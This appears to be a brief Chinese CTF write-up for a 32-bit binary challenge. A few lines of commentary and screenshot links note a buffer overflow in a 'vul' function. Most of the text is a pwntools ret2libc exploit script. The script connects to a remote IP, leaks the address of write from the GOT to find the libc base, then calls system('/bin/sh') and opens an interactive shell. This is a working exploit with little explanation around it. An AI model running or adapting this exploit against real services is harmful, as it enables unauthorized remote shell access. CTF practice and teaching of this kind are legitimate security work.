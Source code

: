 ![image-20220927104120831](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202209271041874.png?x-oss-process=hzy)

有个main文件

![image-20220927104135755](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202209271041807.png?x-oss-process=hzy)

32位文件，ida打开反编译看看

![image-20220927104246804](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202209271042870.png?x-oss-process=hzy)

跟进vul函数

![image-20220927104408685](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202209271044735.png?x-oss-process=hzy)

这地方存在溢出

![image-20220927104458407](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202209271044454.png?x-oss-process=hzy)

没有给/bin/sh，emm



```
from pwn import *

context.log_level = "debug"

p = remote('139.224.3.107',9999)
elf = ELF('./main')

write_plt = elf.plt['write']
write_got = elf.got['write']
 
main_addr = 0x0804848A
offset_write =0x0d5c90
offset_system = 0x03adb0
offset_str_bin_sh =0x15bb2b

payload = 'A' * 40 + p32(write_plt) + p32(main_addr) + p32(1) + p32(write_got) + p32(4)

p.sendlineafter('plz input your name:\n',payload)
write_addr = u32(p.recv(4))
libc_base = write_addr - offset_write
sys_addr = libc_base + offset_system
sh_addr = libc_base + offset_str_bin_sh

payload = 'A' * 40 + p32(sys_addr) + p32(4) + p32(sh_addr)
p.sendline(payload)
p.interactive()

```

![image-20220927105421252](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202209271054310.png?x-oss-process=hzy)
